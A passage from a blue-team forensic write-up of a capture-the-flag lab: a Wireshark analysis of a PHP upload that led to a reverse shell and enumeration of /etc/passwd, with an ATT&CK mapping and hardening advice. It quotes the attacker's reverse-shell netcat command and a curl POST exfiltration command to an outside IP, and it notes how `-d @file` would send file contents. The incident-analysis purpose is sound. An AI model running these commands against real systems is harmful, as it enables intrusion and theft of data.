| Observed event | Relative capture time |
|---|---:|
| First POST: `image.php` (rejected) | **26.922481 s** |
| Second POST: `image.jpg.php` (accepted by application) | **49.758143 s** |
| GET `/reviews/uploads/image.jpg.php` | **84.150547 s** |
| TCP conversation with remote port `8080` starts | **84.153968 s** |

The matching TCP conversation begins approximately **3.4 ms after** the GET request for the uploaded PHP file. The destination precisely matches the address and port hardcoded in the payload. This is **strong evidence consistent with execution and a reverse connection**, and the interactive shell output examined below confirms subsequent command execution.

### Step 4 — follow the reverse-shell stream and verify command execution

To find this stream without knowing the number in advance, filter using the indicators extracted from the PHP payload:

```wireshark
ip.addr == 117.11.88.124 && tcp.port == 8080
```

Choose a matching packet, expand **Transmission Control Protocol → Stream index**, then **Right-click → Follow → TCP Stream**. Wireshark assigns this conversation **stream 13** in this capture. Alternatively, filter it directly:

```wireshark
tcp.stream == 13
```

The reconstructed terminal output contains:

```console
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
$ uname -a
Linux ubuntu-virtual-machine 6.2.0-37-generic #38~22.04.1-Ubuntu ...
$ pwd
/var/www/html/reviews/uploads
$ ls /home
ubuntu
$ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
...
ubuntu:x:1000:1000:ubuntu,,,:/home/ubuntu:/bin/bash
```

**Interpretation:** The actor obtained an interactive command channel and ran Linux commands as **`www-data`** (the web-service account). The host details, working directory, account enumeration and returned `/etc/passwd` data appear in the network stream. That is direct, application-level evidence of remote command execution, not merely the observation of a TCP handshake. The `can't access tty` message indicates the shell lacks a controlling terminal; `job control turned off` is common in simple network shells and does not mean the shell is inoperative.

To separately verify which endpoint initiated the underlying TCP connection, isolate the initiating SYN:

```wireshark
tcp.stream == 13 && tcp.flags.syn == 1 && tcp.flags.ack == 0
```

The packet-level handshake has not been provided, so we do not assert its individual frame numbers. The close timing, known PHP command and observed shell contents strongly connect the outbound conversation to execution of the uploaded PHP.

[Full recovered TCP stream 13 transcript](evidence/tcp-stream-13-reverse-shell.txt) (contains a capture-gap notice).


*Figure 9. TCP Conversations shows victim `24.49.63.79:54448` communicating with attacker `117.11.88.124:8080` in stream 13.*



*Figure 10. Lab-confirmed destination port `8080`.*

### Underlying theory — four-tuple and reverse connection

Each TCP connection is identified by a **four-tuple**: source IP, source port, destination IP and destination port. A service may listen on a known port while the calling host selects a temporary **ephemeral** source port. Port `8080` is often used for HTTP, but in this case the **payload** indicates it is being used as a reverse-shell endpoint; port numbers do not establish protocols on their own.

When an uploaded PHP file executes a command that starts a remote shell connection, the web application is an initial **execution vector**, while the TCP session is the **command channel**. That distinction helps analysts correlate web logs, packet captures, process telemetry and firewall records.

## 6. Identify the targeted file and distinguish two transfer mechanisms

**Question:** Which file was the attacker trying to exfiltrate?  
**Finding: `/etc/passwd`** — its contents were returned **through the reverse shell**. The separate `curl` POST appears to have transmitted **only the literal path**, not the file contents.

### Investigation logic: follow the command channel, not a guessed filename

1. Start from the network destination decoded in the uploaded PHP: `nc 117.11.88.124 8080`.
2. Find that connection in **Statistics → Conversations → TCP** (victim `24.49.63.79:54448` ↔ attacker `117.11.88.124:8080`). Its assigned **stream ID is 13**.
3. Apply `tcp.stream == 13` and select **Follow → TCP Stream**, **Show data as: ASCII**. Read both the commands and the returned output. The stream identifier was discovered from the **IP:port match**, not from the challenge’s answer-length hint.
4. Identify file reads (`cat`, `head`, `tail`) and any subsequent network-transfer commands (`curl`, `nc`, etc.). Classify what each command actually does; do not assume every path mention proves file transfer.
5. Examine any *new* connection referenced by a transfer command. The shell's `curl` command names `117.11.88.124:443`, so search for that destination **without knowing the stream number**. The matching connection is assigned **stream 14** in this capture.
6. Follow stream 14, examine the request **body**, its `Content-Length`, and the application-layer **response**. Distinguish what was sent from what the receiving service accepted.

### From a shell command to a packet: how to recognise `24.49.63.79:54438 → 117.11.88.124:443`

This is a transferable workflow, **not** an exercise in memorising stream IDs. Begin with the shell's own command:

```bash
curl -X POST -d /etc/passwd http://117.11.88.124:443/
```

The URL gives you two investigative pivots: destination IP **`117.11.88.124`** and port **`443`**. Start with this **broad directional filter**:

```wireshark
ip.dst == 117.11.88.124 && tcp.dstport == 443
```

Find the relevant packets and check **Source**, **Destination**, and **Transmission Control Protocol → Source Port / Destination Port**. Packet **183**, the initial TCP SYN, shows `24.49.63.79:54438 → 117.11.88.124:443`. This confirms the web server **initiated** the connection. Packet **267** contains the HTTP POST, establishing that the host actually sent an application request.

| Text you see | What it denotes | Where you find it |
|---|---|---|
| `24.49.63.79` | Victim's source IP for this outbound packet | `ip.src` / Source column |
| `54438` | Victim's temporary source TCP port (*ephemeral port*) | `tcp.srcport` |
| `→` | **Direction of this packet**; not a permanent role assignment | Source → Destination |
| `117.11.88.124` | Remote destination IP named by the command | `ip.dst` / Destination column |
| `443` | Remote TCP destination port named by the command | `tcp.dstport` |

**Why is this not stream 13?** TCP stream **13** was the earlier reverse-shell command channel `24.49.63.79:54448 ↔ 117.11.88.124:8080`. The later `curl` command created a **different TCP connection**: source port `54438`, destination port `443`, assigned **stream 14**. Stream numbers are Wireshark labels assigned **within the capture**, not protocol identifiers and not port numbers.

To show packets in **both directions**, use:

```wireshark
tcp.stream == 14
```

Then **right-click packet 267 → Follow → HTTP Stream** (or TCP Stream), **Show data as: ASCII**. You can also right-click the connection in **Statistics → Conversations → TCP** and choose **Follow Stream**.


*Figure 11. Packet 183 is the SYN from victim port 54438 to attacker port 443; packet 267 contains the HTTP POST. The screenshot’s source-only filter hides the return traffic.*

**Important conceptual distinction:** Wireshark’s A/B labels in *Conversations* do not define attacker/victim. The first SYN establishes the connection initiator. For individual packets, the Source and Destination columns show that packet’s direction; response packets reverse those fields. To confirm application direction, inspect who sends the HTTP request versus the HTTP response.

### Before interpreting a stream: establish the direction of the data

The reverse-shell evidence is only persuasive if we can tell **which host sent the account records**. “Source” and “Destination” belong to **individual packets**, not permanently to the attacker or victim. A reverse shell changes the usual direction of the connection:

```text
Initial exploit / web upload:
117.11.88.124 (attacker) ──HTTP POST──> 24.49.63.79:80 (web server)

Reverse shell initiated by the victim:
24.49.63.79:54448 (web server) ──TCP──> 117.11.88.124:8080 (attacker)

Later HTTP command:
24.49.63.79:54438 (web server) ──HTTP POST──> 117.11.88.124:443 (attacker)
```

In **Follow → TCP Stream**, select **Entire conversation** to see both directions; the direction selector also lets you isolate one side. Do not infer the attacker from the red/blue text alone: the colours identify Wireshark's two endpoint directions and can change with theme. Check the IP addresses associated with each direction.

To verify that file output was sent **from the victim to the attacker**, isolate packets carrying payload in that direction:

```wireshark
tcp.stream == 13 && ip.src == 24.49.63.79 && ip.dst == 117.11.88.124 && tcp.len > 0
```

Select relevant packets, inspect their bytes or follow the stream, and correlate the account-record text with that direction. This is the verification step a responder should repeat on the original PCAP: the supplied reverse-shell transcript and Conversations data support the conclusion, but we did not independently replay the capture here.

**Why not assume stream 13 from the beginning?** We discovered it by matching the `nc` destination in the uploaded payload (`117.11.88.124:8080`) against the TCP Conversations table. The same procedure found **stream 14** from the later `curl` URL (`117.11.88.124:443`).

### Evidence A — account file read over the reverse shell

TCP stream 13 shows the following sequence (abridged):

```console
$ whoami
www-data
$ pwd
/var/www/html/reviews/uploads
$ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
...
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
...
ubuntu:x:1000:1000:ubuntu,,,:/home/ubuntu:/bin/bash
```

The output following `cat` consists of Linux account records and was observed within the **victim–attacker TCP connection**. That means the file contents were not merely *read locally*: they were **sent back as shell output over the reverse connection**. This supports exfiltration of readable account data through the already established command channel. It does **not** by itself show that the separate HTTP POST transmitted the same contents.

### Relevant theory — what `/etc/passwd` contains

On modern Linux systems, `/etc/passwd` contains user-account metadata, typically not password hashes (those are ordinarily stored in `/etc/shadow`, which is more tightly protected). A representative record is:

```text
ubuntu:x:1000:1000:ubuntu,,,:/home/ubuntu:/bin/bash
```

Fields are separated by colons: **username : password placeholder : UID : primary GID : account information : home directory : login shell**. The `x` placeholder indicates that the password hash is not here. The file is commonly world-readable; attackers may nevertheless use it for account enumeration and to plan subsequent access attempts.

### Evidence B — an additional HTTP POST command with misleading syntax

Later in the same terminal session, the actor ran:

```bash
curl -X POST -d /etc/passwd http://117.11.88.124:443/
```

The difference between these two `curl` syntaxes is decisive:

| Argument | Data sent in the POST body |
|---|---|
| `-d /etc/passwd` | Literal eleven-byte string `/etc/passwd` |
| `-d @/etc/passwd` | Reads the named file and submits its contents |

The shell reports **11 bytes uploaded**, and we now have direct **HTTP-stream evidence** confirming exactly which eleven bytes those were.

### Evidence C — the actual POST to the attacker (TCP stream 14)

The Wireshark **Follow HTTP Stream** view (packet **267**) reconstructs the following request:

```http
POST / HTTP/1.1
Host: 117.11.88.124:443
User-Agent: curl/7.81.0
Accept: */*
Content-Length: 11
Content-Type: application/x-www-form-urlencoded

/etc/passwd
```

**Interpret the request before the response.** The blank line ends the HTTP headers. The bytes that follow form the request **body**. `Content-Length: 11` tells the receiving server exactly how many request-body bytes to expect; `/etc/passwd` is exactly eleven ASCII bytes. **The body is the literal path, not the content of the account file.** This corroborates the shell command’s `-d` syntax without relying on assumptions about `curl`.


*Figure 12. Original Follow HTTP Stream: an eleven-byte request body containing `/etc/passwd`. This proves what the separate HTTP request carried.*

When we include the return direction, the receiving service's headers become visible:

```http
HTTP/1.0 501 Unsupported method ('POST')
Server: SimpleHTTP/0.6 Python/3.11.6
Date: Thu, 30 Nov 2023 18:46:39 GMT
Connection: close
Content-Type: text/html;charset=utf-8
Content-Length: 357
```

The server identifies itself as Python `SimpleHTTP` and responds with **501 Unsupported method ('POST')**. The destination was reachable and replied, but that service **did not support POST**. Do not confuse `Content-Length: 357` in the response with 357 bytes of stolen file data: that figure is the size of the **server's response body**, likely an HTML error page, not the victim's upload. The screenshots do not supply the full HTML error body, so the transcript above preserves the visible response **headers only**.



*Figure 13. Once both packet directions are included, the server returns HTTP 501. Wireshark places request and response text together in the stream; colours distinguish the sender.*

<details>
<summary><strong>TCP stream 14 — exact captured request and visible response headers</strong> · searchable transcript</summary>

```http
POST / HTTP/1.1
Host: 117.11.88.124:443
User-Agent: curl/7.81.0
Accept: */*
Content-Length: 11
Content-Type: application/x-www-form-urlencoded

/etc/passwd
HTTP/1.0 501 Unsupported method ('POST')
Server: SimpleHTTP/0.6 Python/3.11.6
Date: Thu, 30 Nov 2023 18:46:39 GMT
Connection: close
Content-Type: text/html;charset=utf-8
Content-Length: 357
```

The `HTTP/1.0` line represents the **start of the response**, not a continuation of the request body. Wireshark’s concatenated stream display can place it immediately after the path. The full HTML response body was not provided in the screenshots.

[Open stream 14 transcript](evidence/tcp-stream-14-http-post-and-501.txt)
</details>

A further protocol lesson: `http://117.11.88.124:443/` requests **unencrypted HTTP on port 443**, not HTTPS. A port number does not guarantee TLS; the URL scheme and actual protocol establish what the traffic is.

**Outcome:** The account file's contents had already been returned over the **reverse-shell stream 13**. The subsequent **stream 14** transferred the path string only, and the receiving Python HTTP server rejected POST. It would be inaccurate to call the stream 14 request a successful transfer of the **file contents**, but it would also be inaccurate to say that no `/etc/passwd` information left the victim host.

### Full user-supplied transcript and capture limitation

The transcript includes `whoami`, `uname -a`, `pwd`, `ls /home`, `cat /etc/passwd`, all visible account records, and the subsequent `curl` command/output. It is available as searchable text rather than forcing readers to decode a screenshot.

<details>
<summary><strong>TCP stream 13 — reverse shell, account enumeration and curl</strong> · recovered transcript</summary>

```console
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
$ uname -a
Linux ubuntu-virtual-machine 6.2.0-37-generic #38~22.04.1-Ubuntu SMP PREEMPT_DYNAMIC Thu Nov  2 18:01:13 UTC 2 x86_64 x86_64 x86_64 GNU/Linux
$ pwd
/var/www/html/reviews/uploads
$ ls /home
ubuntu
$ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:102:105::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:103:106:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
syslog:x:104:111::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
tss:x:106:113:TPM software stack,,,:/var/lib/tpm:/bin/false
uuidd:x:107:116::/run/uuidd:/usr/sbin/nologin
systemd-oom:x:108:117:systemd Userspace OOM Killer,,,:/run/systemd:/usr/sbin/nologin
tcpdump:x:109:118::/nonexistent:/usr/sbin/nologin
avahi-autoipd:x:110:119:Avahi autoip daemon,,,:/var/lib/avahi-autoipd:/usr/sbin/nologin
usbmux:x:111:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
dnsmasq:x:112:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
kernoops:x:113:65534:Kernel Oops Tracking Daemon,,,:/:/usr/sbin/nologin
avahi:x:114:121:Avahi mDNS daemon,,,:/run/avahi-daemon:/usr/sbin/nologin
cups-pk-helper:x:115:122:user for cups-pk-helper service,,,:/home/cups-pk-helper:/usr/sbin/nologin
rtkit:x:116:123:RealtimeKit,,,:/proc:/usr/sbin/nologin
whoopsie:x:117:124::/nonexistent:/bin/false
sssd:x:118:125:SSSD system user,,,:/var/lib/sss:/usr/sbin/nologin
speech-dispatcher:x:119:29:Speech Dispatcher,,,:/run/speech-dispatcher:/bin/false
fwupd-refresh:x:120:126:fwupd-refresh user,,,:/run/systemd:/usr/sbin/nologin
nm-openvpn:x:121:127:NetworkManager OpenVPN,,,:/var/lib/openvpn/chroot:/usr/sbin/nologin
saned:x:122:129::/var/lib/saned:/usr/sbin/nologin
colord:x:123:130:colord colour management daemon,,,:/var/lib/colord:/usr/sbin/nologin
geoclue:x:124:131::/var/lib/geoclue:/usr/sbin/nologin
pulse:x:125:132:PulseAudio daemon,,,:/run/pulse:/usr/sbin/nologin
gnome-initial-setup:x:126:65534::/run/gnome-initial-setup/:/bin/false
hplip:x:127:7:HPLIP system user,,,:/run/hplip:/bin/false
gdm:x:128:134:Gnome Display Manager:/var/lib/gdm3:/bin/false
ubuntu:x:1000:1000:ubuntu,,,:/home/ubuntu:/bin/bash
$ curl -X POST -d /etc/passwd http://117.11.88.124:443/
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed

  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--     0
100   368  100   357  100    11  56774   17[393 bytes missing in capture file].$
```

[Open standalone stream 13 transcript](evidence/tcp-stream-13-reverse-shell.txt)
</details>

**Capture limitation:** Wireshark inserts `[393 bytes missing in capture file]` near the end of the pasted transcript. The exact missing bytes cannot be reconstructed from this exhibit. This does not negate the visible `/etc/passwd` output, but it limits what we can claim about the full terminal session or the subsequent HTTP response.


*Figure 14. The shell output includes Linux account records and a subsequent curl POST whose progress line reports 11 uploaded bytes.*

### What is proven, what remains unverified?

| Observation | Supported conclusion |
|---|---|
| Shell output returned `www-data`, kernel information and current directory | Interactive remote command execution occurred as a web-service account. |
| `cat /etc/passwd` followed by account records inside stream 13 | `/etc/passwd` contents were conveyed over the reverse shell. |
| `curl -d /etc/passwd`, stream 14 `Content-Length: 11`, and the actual body `/etc/passwd` | The additional HTTP POST **sent only the literal path**, not the account-file contents. |
| Stream 14 response: `HTTP/1.0 501 Unsupported method ('POST')` | The destination service rejected the HTTP POST method. This does not undo the earlier data disclosure over stream 13. |

**Transferable principle:** Data exfiltration can occur through *command output on an existing remote shell*, not only through a dedicated upload command. Trace both the data flow and the protocol semantics before describing an exfiltration outcome.

## Findings and verification status

| Investigation question | Finding | Evidence and confidence |
|---|---|---|
| Q1 — Suspicious source and city | **117.11.88.124; Tianjin, China** | Source IP visible in malicious HTTP traffic; city is challenge-confirmed, not independently re-looked up. It does not identify the human operator's location. |
| Q2 — HTTP User-Agent | **`Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0`** | Seen in supplied HTTP transcripts. It is client-controlled and spoofable. |
| Q3 — Malicious upload | **`image.jpg.php`** | Rejected first filename in stream 4; application-reported success for second in stream 5. |
| Q4 — Upload directory | **`/reviews/uploads/`** | HTTP GET in stream 12; stream 13 shell also reports working directory `/var/www/html/reviews/uploads`. |
| Q5 — Reverse-shell target port | **`8080`** | Hardcoded in PHP; matches stream 13 traffic, followed by returned interactive shell output. |
| Q6 — Targeted file | **`/etc/passwd`** | `cat` returned account records over the shell; stream 14 independently confirms an eleven-byte HTTP body `/etc/passwd` and a Python HTTP 501 response. |

### Investigation timeline (relative to capture)

| Time | Observation | Analytical meaning |
|---:|---|---|
| **26.922 s** | `POST /reviews/upload.php` with `image.php` (frame 53) | First attempt rejected by app-level response. |
| **49.758 s** | Same endpoint with `image.jpg.php` (frame 63) | Application reports successful upload. |
| **84.151 s** | `GET /reviews/uploads/image.jpg.php` (frame 138) | Attempt to access/execute uploaded script. |
| **84.154 s** | Connection to `117.11.88.124:8080` starts (stream 13) | Matches payload destination, almost immediately after GET. |
| **Later in stream 13** | `whoami`, `pwd`, `cat /etc/passwd` | Confirms usable remote shell and file output. |
| **Later in stream 13** | `curl -X POST -d /etc/passwd http://117.11.88.124:443/` | Separate HTTP transfer attempt; syntax sends a literal path. |
| **2023-11-30 18:46:39** (capture display) | Stream 14 HTTP POST and HTTP 501 response | Verified 11-byte path in request; Python receiver rejects POST. |

For report-grade UTC timestamps, use **View → Time Display Format → UTC Date and Time of Day** in Wireshark. The table retains capture-relative seconds, which make the causal sequence easier to compare; do not confuse them with wall-clock timestamps.

### Evidence files included in this repository

- [`tcp-stream-04-rejected-upload.txt`](evidence/tcp-stream-04-rejected-upload.txt) — full supplied HTTP request and rejection.
- [`tcp-stream-05-accepted-upload.txt`](evidence/tcp-stream-05-accepted-upload.txt) — full supplied HTTP request, reverse-shell payload and application success message.
- [`tcp-stream-12-shell-get.txt`](evidence/tcp-stream-12-shell-get.txt) — full supplied HTTP GET request; no HTTP response in that stream excerpt.
- [`tcp-stream-13-reverse-shell.txt`](evidence/tcp-stream-13-reverse-shell.txt) — supplied reverse-shell transcript with account records and curl command; contains a capture gap.
- [`tcp-stream-14-http-post-and-501.txt`](evidence/tcp-stream-14-http-post-and-501.txt) — request and visible response headers of the additional HTTP POST, corroborated by screenshots.
- [`assets/`](assets/) — Wireshark screenshots, HTTP stream excerpts and challenge confirmations.

**Provenance note:** All transcripts were supplied in conversation from Wireshark's *Follow Stream* view and have not been independently regenerated from the original PCAP. Preserve the PCAP and its hash separately when building a formal case record. A stream transcript is a readable derivative, not a substitute for original acquisition.

## MITRE ATT&CK mapping — limited to observed behaviour

Technique mapping is useful only where the corresponding behaviour is visible. It should not replace the primary packet evidence.

| Technique | Supporting observation | Qualification |
|---|---|---|
| [T1190 — Exploit Public-Facing Application](https://attack.mitre.org/techniques/T1190/) | Reviews upload handler accepts PHP after a filename change; script subsequently executes | Likely mechanism; exact vulnerable server-side check is unknown |
| [T1505.003 — Server Software Component: Web Shell](https://attack.mitre.org/techniques/T1505/003/) | Uploaded PHP invokes OS commands through `system()` | The script’s purpose and subsequent shell execution are supported |
| [T1059.004 — Command and Scripting Interpreter: Unix Shell](https://attack.mitre.org/techniques/T1059/004/) | `/bin/sh -i` plus `whoami`, `pwd`, `cat` output | Direct command-channel evidence |
| [T1087.001 — Account Discovery: Local Account](https://attack.mitre.org/techniques/T1087/001/) | `cat /etc/passwd` reveals local accounts | Direct account-enumeration evidence |
| [T1041 — Exfiltration Over C2 Channel](https://attack.mitre.org/techniques/T1041/) | `/etc/passwd` contents returned over the reverse shell | Distinct from the later 11-byte HTTP POST, which did not send the file |

Do not infer additional persistence mechanisms, privilege escalation or credential dumping from this capture. `/etc/passwd` is not, by itself, a password-hash dump.

## Detection and defensive lessons

- **Harden file uploads:** allowlist accepted file types, inspect actual content, generate server-side filenames and store uploads outside executable web paths. These measures address different weaknesses; extension checks alone are insufficient.
- **Correlate network events:** rejected upload → accepted upload → GET for uploaded filename → reverse-shell commands and file output is stronger evidence than any event alone.
- **Contain and scope the confirmed compromise:** in a real incident, isolate the affected server as appropriate, preserve volatile and disk evidence, remove the executable upload path, review web logs/process activity and identify any other data accessed. Do not assume the exposed account list contains password hashes.
- **Treat indicators proportionately:** a reported city and a User-Agent are weak identifiers; a specific upload path, exploit sequence and verified command flow can be more useful in investigation and detection engineering.
- **Preserve evidence provenance:** distinguish visible packet evidence from lab hints, assumed exploit mechanisms and third-party geolocation estimates.

## References

- [CyberDefenders — WebStrike challenge](https://cyberdefenders.org/blueteam-ctf-challenges/webstrike/)
- [Wireshark User's Guide — Following protocol streams](https://www.wireshark.org/docs/wsug_html_chunked/ChAdvFollowStreamSection.html)
- [Wireshark Display Filter Reference](https://www.wireshark.org/docs/dfref/)
- [MDN — HTTP User-Agent](https://developer.mozilla.org/en-US/docs/Web/HTTP/Reference/Headers/User-Agent)
- [MDN — `multipart/form-data`](https://developer.mozilla.org/en-US/docs/Web/HTTP/Reference/Methods/POST)
- [OWASP — File Upload Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/File_Upload_Cheat_Sheet.html)
- [MITRE ATT&CK — Web Shell (T1505.003)](https://attack.mitre.org/techniques/T1505/003/)
- [MITRE ATT&CK — Exfiltration Over C2 Channel (T1041)](https://attack.mitre.org/techniques/T1041/)
- [curl manual — `--data`](https://curl.se/docs/manpage.html#-d)
